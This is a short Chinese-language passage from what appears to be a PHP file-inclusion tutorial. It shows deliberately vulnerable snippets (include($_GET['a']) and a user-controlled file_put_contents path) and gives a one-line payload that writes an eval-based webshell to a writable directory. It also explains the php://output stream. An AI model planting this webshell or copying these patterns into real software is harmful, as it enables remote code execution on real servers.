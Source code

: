 
```php
<?php
include($_GET['a']);
?>
```

当`allow_url_include=on`的时候,就可以造成任意代码执行

![](php_input.png)

当该目录具有可写权限时,可以上传webshell

`<?php fputs(fopen('.1.php','w'),'<?php @eval($_POST["pass"]); ?>'); ?>`

#### php://output

是一个只写的数据流,允许你以print和echo一样的方式写入到输出缓冲区(即直接在网页中显示,而不是写入到文件)

```php
<?php  
$code=$_GET["a"];  
file_put_contents($code,"test");
?>  
```
